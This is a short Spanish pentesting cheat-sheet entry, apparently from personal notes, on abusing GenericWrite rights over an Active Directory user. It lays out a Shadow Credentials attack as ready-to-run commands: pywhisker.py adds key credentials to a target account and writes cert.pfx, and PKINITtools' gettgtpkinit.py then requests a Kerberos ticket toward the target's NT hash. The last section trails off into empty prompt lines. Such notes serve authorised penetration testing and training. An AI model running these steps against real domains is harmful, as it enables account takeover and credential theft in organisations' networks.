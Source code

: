 # Abuso ACL 

Tags: #AD #ACL #Linux #Impacket 

## GenericWrite sobre Usuario 

* [PyWhisker](https://github.com/ShutdownRepo/pywhisker/tree/main/pywhisker)
* [Shadow Credentials attack](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

```bash
# Shadow credentials attack 
❯ pywhisker.py -d "domain" -u "ControlledAccount" -p "password" --target "targetAccount" --action "add" 

Notas:
	1. El output muestra la 'password' que se utilizará 
	2. Crea un 'cert.pfx' 
```

```bash 
Seguir los siguientes pasos para obtener el hash NT:
❯ git clone https://github.com/dirkjanm/PKINITtools     # Clonar e ingresar 

❯ python3 gettgtpkinit.py -cert-pfx cert.pfx -pfx-pass 'password' domain/targetAccount output.ccache 
❯ 
❯ 
❯ 
```